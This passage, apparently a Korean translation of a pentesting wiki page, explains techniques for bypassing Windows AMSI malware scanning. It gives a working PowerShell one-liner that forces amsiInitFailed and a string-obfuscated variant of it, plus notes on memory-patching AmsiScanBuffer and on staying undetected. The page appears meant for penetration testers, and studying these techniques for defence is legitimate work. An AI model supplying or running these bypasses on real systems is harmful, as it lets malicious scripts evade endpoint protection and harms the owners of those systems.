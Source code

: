 - **Obfuscation**

  AMSI가 주로 정적 탐지로 동작하므로 로드하려는 스크립트를 변경하는 것이 탐지를 피하는 데 도움이 될 수 있다.

  하지만 AMSI는 여러 단계로 난독화된 스크립트도 복원할 수 있는 기능을 가지므로, 난독화는 어떻게 되느냐에 따라 오히려 좋지 않은 선택이 될 수 있다. 따라서 우회가 간단하지 않을 수 있다. 때로는 변수명 몇 개만 바꿔도 통과되는 경우도 있으므로, 탐지 정도에 따라 다르다.

- **AMSI Bypass**

  AMSI는 DLL을 powershell(또는 cscript.exe, wscript.exe 등) 프로세스에 로드하는 방식으로 구현되어 있어, 권한이 없는 사용자로 실행 중이라도 이를 쉽게 조작할 수 있다. 이런 구현상의 결함 때문에 연구자들은 AMSI 스캐닝을 회피하는 여러 방법을 발견했다.

  **Forcing an Error**

  AMSI 초기화가 실패하도록 강제(amsiInitFailed)하면 현재 프로세스에 대해 스캔이 시작되지 않는다. 원래 이 기법은 [Matt Graeber](https://twitter.com/mattifestation)가 공개했으며 Microsoft는 이러한 광범위한 사용을 막기 위한 시그니처를 개발했다.
```bash
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
AMSI를 현재 powershell 프로세스에서 사용할 수 없게 만드는 데는 powershell 코드 한 줄이면 충분했습니다. 물론 이 한 줄은 AMSI 자체에 의해 탐지되었으므로 이 기술을 사용하려면 약간의 수정이 필요합니다.

다음은 제가 이 [Github Gist](https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db)에서 가져온 수정된 AMSI bypass입니다.
```bash
Try{#Ams1 bypass technic nº 2
$Xdatabase = 'Utils';$Homedrive = 'si'
$ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
$DiskMgr = 'Syst+@.MÂ£nÂ£g' + 'e@+nt.Auto@' + 'Â£tion.A' -join ''
$fdx = '@ms' + 'Â£InÂ£' + 'tF@Â£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
$CleanUp = $DiskMgr.Replace('@','m').Replace('Â£','a').Replace('+','e')
$Rawdata = $fdx.Replace('@','a').Replace('Â£','i').Replace('+','e')
$SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
$Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
$Spotfix.SetValue($null,$true)
}Catch{Throw $_}
```
Keep in mind, that this will probably get flagged once this post comes out, so you should not publish any code if your plan is staying undetected.

**Memory Patching**

이 기술은 처음에 [@RastaMouse](https://twitter.com/_RastaMouse/)에 의해 발견되었으며, amsi.dll의 "AmsiScanBuffer" 함수 주소를 찾아 사용자가 제공한 입력을 스캔하는 해당 함수를 E_INVALIDARG 코드를 반환하도록 덮어쓰는 방식입니다. 이렇게 하면 실제 스캔 결과가 0을 반환하게 되고, 이는 클린한 결과로 해석됩니다.

> [!TIP]
> 자세한 설명은 [https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/)을(를) 읽어보십시오.

There are also many other techniques used to bypass AMSI with powershell, check out [**this page**](basic-powershell-for-pentesters/index.html#amsi-bypass) and [**this repo**](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) to learn more about them.

### AMSI 차단: amsi.dll 로드 방지 (LdrLoadDll hook)
